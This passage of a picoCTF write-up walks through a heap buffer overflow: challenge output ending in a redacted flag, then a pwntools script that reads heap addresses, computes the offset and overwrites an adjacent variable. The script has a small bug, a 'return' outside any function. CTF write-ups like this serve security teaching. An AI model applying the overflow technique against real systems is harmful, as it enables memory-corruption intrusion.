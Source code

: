 ```
+-------------+----------------+
[*]   0x5c68bb7db2b0  ->   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
+-------------+----------------+
[*]   0x5c68bb7db2d0  ->   AAAA
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{<censored>}
```

That's great, but now let's automate it! We can use `pwntools` for this:

```python
from pwn import *
import re               
import sys

if (len(sys.argv)<=1):
  print("Please pass the port as a parameter")
  return

conn = remote('tethys.picoctf.net', sys.argv[1]) # connect to host

addrs = re.findall(r'0x[0-9a-fA-F]+', conn.recvuntil(b'Enter your choice:').decode()) # parse out the addrs
pico_addr, bico_addr = [int(addr, 16) for addr in addrs] # assign the respective addrs via the addrs []

offset = bico_addr - pico_addr # calc the offset

# send the data stuff
conn.sendline('2'.encode())
conn.recvuntil(b"Data for buffer:")
conn.sendline(b'A'*offset);
#conn.recvuntil(b'Data for buffer:')
conn.sendline('4'.encode())

conn.interactive()
```